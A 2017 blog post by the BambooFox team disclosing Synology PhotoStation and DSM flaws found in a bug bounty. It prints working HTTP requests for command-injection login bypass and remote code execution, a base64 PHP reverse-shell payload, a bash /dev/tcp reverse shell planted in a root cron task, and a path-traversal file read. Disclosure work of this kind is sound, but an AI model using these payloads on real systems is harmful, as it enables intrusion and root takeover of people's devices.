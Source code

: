 title: '[Synology Bug Bounty 2016]'
author: 'bananaapple,0Alien0'
date: 2017-03-20 07:28:13
tags:
---
Synology Bug Bounty 
=============
Author: BambooFox

In last year(2016), our team BambooFox is invited to Synology Bug Bounty. During about 2 mouth hacking, several vulnerabilities are discovered, include a remote root vuln. Enginners in Synology response and fix these vuln in a very sort time, which shows they pay a lot of attension for security issue.

For now(2017), we are permitted to disclosure the vulnerabilities.

Vul-01: PhotoStation Login without password
---
We mostly focus on PhotoStation, which is the picture management system enabled in most Synology DSM.

The first vuln is unauthenticated login without password.

POC1:
```
GET //photo/login.php?usr=admin&sid=xxx&SynoToken=/bin/true HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept:    text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: |
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

The key points of POC1 are '|' in X-Forwarded-For field and SynoToken.
We found that server site CGI will concate user, X-Forwarded-For and SynoToken into command and execute this command.
But the special characters '|' and '>' is not correctly filter out. 

Therefore in our POC1, the command will become
```
/usr/syno/bin/synophoto_dsm_user username | /bin/true
```

This command returns 0(True) and bypasses the authentication.

**Expected Result:
Adversary can login as admin without password**

![Login without password](http://i.imgur.com/pnIWZ6t.png)

Vul-02: PhotoStation Remote Code Execution
---
After first attemp to login success, 
we futher extend out attack for remote code execution.

POC2: 
1 . Encode the command you want in base64
```
$sock=fsockopen("......",8080);exec("/bin/sh -i <&3 >&3 2>&3");
=> JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOw==
```

2 . Send the payload
```
GET //photo/login.php?usr=|&sid=php&SynoToken=eval%28base64_decode%28%22JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA%2bJjMgMj4mMyIpOw%3D%3D%22%29%29%3B HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: -r
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

In POC2, the similar approach is taken to achieve RCE.
Loop more deep to the PhotoStation source code. We can find following code.
```
if ($x_forward) {
    $ip = $x_forward;
}
// ...
$retval = csSYNOPhotoMisc::ExecCmd('/usr/syno/bin/synophoto_dsm_user', array('--current', $user, $session_id, $ip, $synotoken), false, $isValidUser);

if ($retval === 0) {
    $login_status = true;
} else {
    // login failed
}
```

In this code snippet, $user, $ip and $synotoken can be easily controlled by HTTP header. Thus we can try command injection. However our first attempt fails due to something is filtering out. But we also notice that some special char is not filtered. The code here shows that.
```
static $skipEscape = array('>', '<', '|', '&');
```

As result, '>', '<', '|', '&' can used to cause command injection.

![Remote Code Execution](http://i.imgur.com/qJxpKq8.png)

Vul-03: Arbitrary Read/Write Files
---
After the shell gotten. We continue to find flaw in the DSM. The binary program synophoto_dsm_user gets our attension. This binary is **suid** and has a powerful copy function. Thus we can use this binary to   arbitrary read/write files.

Vul-04: Get Root 
---
With previous 3 vuln, now we can start to remote root. We first try to modify crontab, but fails due to apparmor protection. So we move to other place that crontab will invoke it. 
We finally find the '/tmp/synoschedtask' that will be invoked by crontab as root. Therefore we use synophoto_dsm_user to modify the content as follow:
```
/volume1/photo/bash -c '/volume1/photo/bash -i >& /dev/tcp/x.x.x.x/yyyyy 0>&1'
```

Then we can now wait for reverse shell.
![Remote Code Execution](http://i.imgur.com/5YrQU54.jpg)

Vul-05: forget_passwd.cgi DOS via Blocking IP
---
Besides remote root vuln, we also find other security flaws. Here os the LFI vuln.

forget_passwd.cgis use X-Forwarded-For to block user IP. If a user sends request to  forget_passwd.cgi too fast, the user will be blocked by it's IP.
But X-Forwarded-For can be easily forged in client site. Thus attacker can block any user by it's IP. 
Moreover, attack can enumerate all the ip to DOS DSM.
![Block IP](http://i.imgur.com/aU9IDWm.png)

Vul-06:  PhotoStation Download.php Local File Inclusion
---
The download.php have local file inclusion problem. The parameter id is controllable. As example, we can use "../../../../../../var/services/homes/[username]/.gitconfig" to download user's file.

![Local File Inclusion](http://i.imgur.com/ZpL5Tw7.png)
